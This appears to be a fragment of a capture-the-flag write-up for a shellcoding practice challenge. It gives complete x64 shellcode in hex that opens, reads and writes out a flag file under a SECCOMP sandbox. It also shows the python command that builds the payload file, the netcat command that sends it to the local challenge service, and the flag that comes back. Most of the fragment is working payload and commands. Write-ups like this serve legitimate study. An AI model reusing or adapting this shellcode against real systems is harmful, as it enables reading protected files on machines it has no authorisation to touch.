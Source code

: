 This is my final shellcode,

> 48C7C002000000488D3D330000004989E20F054889C74831C048C7C2001000004C89D60F05
48C7C00100000048C7C7010000000F0548C7C03C0000004831FF0F052f746d702f736a2f6869
692e2f746869735f69735f70776e61626c652e6b725f666c61675f66696c655f706c65617365
5f726561645f746869735f66696c652e736f7272795f7468655f66696c655f6e616d655f6973
5f766572795f6c6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f
6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f
6f6f6f6f6f6f6f303030303030303030303030303030303030303030303030306f6f6f6f6f6f
6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f3030303030303030303030306f306f306f306f306f
306f306f6e6700

don't forget to insert 0x00 at the end of the file name.
and need to add file path ./ at the beginning of the file name.
By the way, the buffer for read and write syscall, I used RSP to reference suitable stack region.

All ready, let's send the payload to get the flag!
> python -c 'print "48C7C002000000488D3D330000004989E20F054889C74831C048C7C2
001000004C89D60F0548C7C00100000048C7C7010000000F0548C7C03C0000004831FF0F052f
746d702f736a2f6869692e2f746869735f69735f70776e61626c652e6b725f666c61675f6669
6c655f706c656173655f726561645f746869735f66696c652e736f7272795f7468655f66696c
655f6e616d655f69735f766572795f6c6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f
6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f
6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f30303030303030303030303030303030303030303030
3030306f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f6f303030303030303030303030
6f306f306f306f306f306f306f6e6700".decode("hex")' > hsj3

asm@ubuntu:~$ cat /tmp/sj/hsj3 | nc 0 9026
Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
give me your x64 shellcode: Mak1ng_shelLcodE_i5_veRy_eaSy

